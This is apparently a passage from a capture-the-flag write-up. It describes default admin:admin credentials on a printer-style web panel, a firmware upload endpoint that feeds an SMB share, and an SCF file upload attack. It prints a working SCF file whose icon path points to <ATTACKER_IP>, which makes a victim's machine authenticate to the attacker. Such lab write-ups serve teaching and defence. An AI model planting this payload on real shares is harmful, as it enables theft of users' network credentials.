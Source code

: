 Surprisingly, using the default credentials `admin:admin` granted us access.

![Firmware Upload](/assets/images/writeups/driver/3.png)

Exploring further, we discovered the `/fw_up.php` endpoint, which allowed us to upload firmware updates.

Additionally, a notice at the top of the page indicated that firmware updates could be uploaded through the UI, and they would be submitted to an `SMB` file share. A member of the testing team would then manually review the uploaded file and initiate testing.

This scenario presented an ideal opportunity for executing the `SCF` file upload attack.

# SCF FILE UPLOAD ATTACK

`SCF` (**Shell Command Files**) are typically utilized for basic operations such as displaying the Windows desktop or launching Windows Explorer. 

However, they can also be sneaky. An `SCF` file can access a specific `UNC` (**Universal Naming Convention**) path, essentially serving as a backdoor for an attacker. 

The provided code snippet below could be put within a text file and placed within a network share:

```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\share\something.ico
[Taskbar]
Command=ToggleDesktop
```
